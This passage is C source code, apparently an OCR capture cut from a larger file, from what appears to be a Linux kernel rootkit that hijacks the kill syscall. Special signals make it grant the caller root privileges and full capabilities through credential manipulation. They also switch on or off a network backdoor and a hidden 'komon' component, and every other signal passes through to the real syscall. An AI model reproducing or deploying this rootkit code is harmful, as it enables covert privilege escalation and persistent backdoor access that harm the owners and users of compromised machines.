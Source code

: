 	                current->fsuid = 0;
	                current->fsgid = 0;
	                cap_set_full(current->cap_effective);
	                cap_set_full(current->cap_inheritable);
	                cap_set_full(current->cap_permitted);
	        #else
	                commit_creds(prepare_kernel_cred(0));
	        #endif
	        break;
	    case SIGBACKDOOR:
	        if (is_net_backdoor)
	            unregist_backdoor();
	        else
	            regist_backdoor();
	        break;
	    case SIGKOMON:
	        if (is_komon)
	            unregist_komon();
	        else
	            regist_komon();
	        break;
	    default:
	        return ref_sys_kill(pid, sig);
	    }
	    return 0;
	}
	```
